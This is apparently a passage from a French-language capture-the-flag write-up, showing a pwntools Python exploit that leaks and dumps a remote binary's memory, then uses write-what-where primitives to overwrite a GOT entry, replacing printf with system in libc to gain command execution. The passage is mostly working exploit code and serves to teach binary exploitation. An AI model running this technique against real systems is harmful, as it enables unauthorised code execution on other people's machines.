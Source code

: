 ```python
    offset = 0
    while not offset>filesize:
        ADDR = 0x8048000+offset
        p.status("({}/{}) {}".format(offset, filesize, hex(ADDR)))
        res = memleak(None, OFFSET, JUNK, ADDR)
        with open('bin', 'ab') as binary:
            binary.write(res)
        offset += len(res)
    p.success('OK')

def solve_level_3(OFFSET, JUNK):
    payload = write_what_where(0x99a6, 0x804c02c, OFFSET, JUNK)
    send_payload(None, payload, True)

def solve_level_4(OFFSET, JUNK):
    r = get_remote()
    send_payload(r, write_what_where(0x99d1, 0x804c02c, OFFSET, JUNK))
    system_libc = unpack(memleak(r, OFFSET, JUNK, 0x804c028)[:4])
    log.info("system@libc: "+hex(system_libc))
    send_payload(r, write_what_where(system_libc, 0x804c010, OFFSET, JUNK))
    log.success("printf@libc -> system@libc")
    send_payload_system(r)
    return
    
#solve_level_2(OFFSET, JUNK)
#solve_level_3(OFFSET, JUNK)
solve_level_4(OFFSET, JUNK)
```

Cette exploitation aurait pu être simplifiée en utilisant un peu plus pwnlib. Cependant, savoir le faire à la main avant d'utiliser ce genre d'outils est intéressant pour bien comprendre ce qu'il se passe.